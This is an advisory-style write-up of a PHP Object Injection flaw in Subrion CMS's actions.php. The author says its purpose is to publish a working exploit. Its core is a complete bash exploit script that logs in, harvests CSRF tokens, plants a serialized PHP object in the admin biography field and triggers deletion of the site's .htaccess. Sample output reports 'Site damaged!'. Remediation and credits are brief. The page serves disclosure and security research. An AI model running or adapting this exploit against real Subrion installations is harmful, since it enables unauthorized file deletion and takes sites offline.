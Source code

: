 ```yaml
---
layout: default
title: Actions PHP Object Injection
parent: Insecure Deserialization
grand_parent: Subrion CMS
nav_order: 1
---
```


# Actions - PHP Object Injection

This vulnerability was found almost contemporaneously by both me and MS509 Team. As the first public appearance of this issue was made by them on the github page of Subrion, the author of this post is not taking credit for this finding. The aim of this report was to only to provide a public, working exploit.

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS up to v4.2.1. It has been rated as problematic. Affected by this issue is the file `/actions.php`. The manipulation of the of the **biography** value within a user profile leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was originally presented by **flystart** of Mission Studio Team [MS509](https://www.ms509.com/) on 03/05/2020. A public exploit was released on 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory (english) is shared for download at github.com. This vulnerability is not handled as a CVE currently. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=1 # ID 1 = Admin
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object within biography"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/members/edit/$id/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "Expect:" -H "$cookies" -F "__st=$csrf_token" -F "username=admin" -F "fullname=Administrator" -F "email=admin@subrion.local" -F "email_language=en" -F "save=1" -F "goto=list" --form-string "biography=$payload" "$target/members/edit/1/")

if [[ $(echo $res | grep "HTTP/1.1" | grep "302") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get CSRF token
csrf_token=$(curl -ks -H "$cookies" -x $proxy $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Get block ID to trigger
res=$(curl -i -s -k -X "POST" -H "$cookies;  XDEBUG_SESSION=XDEBUG_ECLIPSE;" -x $proxy "$(echo $target | sed 's/panel\///g')/actions.json" -F "__st=$csrf_token" -F "action=edit-picture-title" -F "field=biography" -F "item=member" -F "itemid=$id" -F "path=tmp" )

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the .htaccess has been deleted. In case the configuration of the site is more robust, check for the presence of `.htaccess` within Subrion HOME direcotry.

## Remediation

It seems the vulnerability is not exploitable on the latest branch. Updating to the latest version should solve the issue.

## Credits

As already written above, the vulnerability was formerly found by **flystart** (github: **ggg4566**). All credit to him for the discovery of this vulnerability.

* [Flystart](https://github.com/ggg4566)

For more information about the vulnerability, and a detailed write-up, check the MS509 link in the references, below.

## References

* [https://www.ms509.com/2020/03/27/Subrion-Cms-Code-Audit/](https://www.ms509.com/2020/03/27/Subrion-Cms-Code-Audit/)
* [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
* [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)